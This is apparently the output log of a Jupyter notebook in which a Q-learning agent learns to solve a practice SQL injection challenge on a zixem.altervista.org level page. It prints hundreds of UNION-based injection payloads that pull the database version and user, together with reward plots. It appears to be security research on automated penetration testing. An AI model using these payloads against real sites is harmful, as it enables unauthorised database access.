 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2776/1000000 [15:19:04<2959:02:04, 10.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2777/1000000 [15:19:05<2138:53:35,  7.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 2778/1000000 [15:19:06<1563:49:11,  5.65s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4 --
https://zixem.altervista

  0%|          | 2779/1000000 [15:19:29<3033:59:30, 10.95s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/le

  0%|          | 2780/1000000 [15:22:21<16350:24:47, 59.03s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2781/1000000 [15:22:22<11593:04:46, 41.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2782/1000000 [15:22:23<8189:17:57, 29.56s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 an

  0%|          | 2783/1000000 [15:22:58<8632:08:26, 31.16s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2784/1000000 [15:22:59<6112:24:50, 22.07s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2785/1000000 [15:23:00<4340:49:13, 15.67s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2786/1000000 [15:23:02<3192:51:55, 11.53s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2787/1000000 [15:23:02<2296:59:13,  8.29s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervis

  0%|          | 2788/1000000 [15:24:48<10408:46:21, 37.58s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2789/1000000 [15:24:50<7424:19:44, 26.80s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2790/1000000 [15:24:51<5260:45:45, 18.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 

  0%|          | 2791/1000000 [15:25:21<6207:13:19, 22.41s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2792/1000000 [15:25:23<4473:29:40, 16.15s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2793/1000000 [15:25:23<3194:53:22, 11.53s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2794/1000000 [15:25:24<2298:58:54,  8.30s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2795/1000000 [15:25:25<1682:47:34,  6.08s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2796/1000000 [15:25:26<1246:12:12,  4.50s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2797/1000000 [15:25:28<1020:34:11,  3.68s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2798/1000000 [15:25:28<779:17:02,  2.81s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2799/1000000 [15:25:29<618:57:40,  2.23s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1-

  0%|          | 2800/1000000 [15:26:10<3820:47:32, 13.79s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2801/1000000 [15:26:11<2740:55:26,  9.90s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2802/1000000 [15:26:12<2001:49:52,  7.23s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Synt

  0%|          | 2803/1000000 [15:26:39<3652:01:23, 13.18s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 u

  0%|          | 2804/1000000 [15:27:22<6171:55:07, 22.28s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2805/1000000 [15:27:23<4384:42:09, 15.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 2806/1000000 [15:27:27<3399:09:49, 12.27s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2807/1000000 [15:27:28<2445:25:17,  8.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2808/1000000 [15:27:29<1774:58:52,  6.41s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2809/1000000 [15:27:29<1308:22:36,  4.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2810/1000000 [15:27:30<986:01:03,  3.56s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2811/1000000 [15:27:31<754:47:11,  2.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2812/1000000 [15:27:32<592:01:51,  2.14s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2813/1000000 [15:27:33<485:30:46,  1.75s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 

  0%|          | 2814/1000000 [15:27:44<1291:54:24,  4.66s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2815/1000000 [15:27:46<1030:10:43,  3.72s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2816/1000000 [15:27:46<785:53:27,  2.84s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'u

  0%|          | 2817/1000000 [15:28:14<2835:23:23, 10.24s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--


  0%|          | 2818/1000000 [15:29:05<6202:09:17, 22.39s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server r

  0%|          | 2819/1000000 [15:29:42<7439:59:10, 26.86s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2820/1000000 [15:29:43<5284:33:25, 19.08s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2821/1000000 [15:29:44<3765:50:25, 13.60s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union

In [9]:
timestamp = datetime.datetime.now().strftime("%Y%m%d%H%M%S%f")
joblib.dump(agt.Q,'ignore_zixem_'+timestamp+'.pkl')

['ignore_zixem_20241117231029002852.pkl']

Text(0, 0.5, 'number of states')



In [10]:
plt.plot(states)
plt.xlabel('episodes')
plt.ylabel('number of states')

Text(0, 0.5, 'number of steps')



In [11]:
plt.plot(steps)
plt.xlabel('episodes')
plt.ylabel('number of steps')

Text(0, 0.5, 'reward')



In [12]:
plt.plot(rewards)
plt.xlabel('episodes')
plt.ylabel('reward')

In [15]:
#test
nepisodes = 10**2

agt = agn.Agent(const.actions,verbose=True)
agt.set_learning_options(exploration=0.02, 
                         learningrate=0.1, 
                         discount=0.9, max_step = 1000)

Tsteps = []; Trewards = []; Tstates = []
for _ in tqdm(range(nepisodes)):
    env = SQLenv.mockSQLenv(verbose=True, data_reward = 10, syntax_reward = -5, differ_col_reward = -1, query_reward = -2)
    
    agt.reset(env)
    agt.run_episode()
    
    Tsteps.append(agt.steps)
    Trewards.append(agt.rewards)
    Tstates.append(ut.getdictshape(agt.Q)[0]) 

  0%|          | 0/100 [00:00<?, ?it/s]

 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1

  1%|          | 1/100 [00:46<1:16:42, 46.49s/it]

Correct exploratory version of the escape. I return 2
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 uni

  2%|▏         | 2/100 [00:58<42:20, 25.93s/it]  

Correct exploratory user of the challenge. I return 1
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
 'union select 

  3%|▎         | 3/100 [01:12<33:31, 20.74s/it]

Correct exploratory version of the escape. I return 2
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union sel

  4%|▍         | 4/100 [03:28<1:45:41, 66.06s/it]

Correct exploratory version of the escape. I return 2
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
 union select 1,version(),3,4,5 --
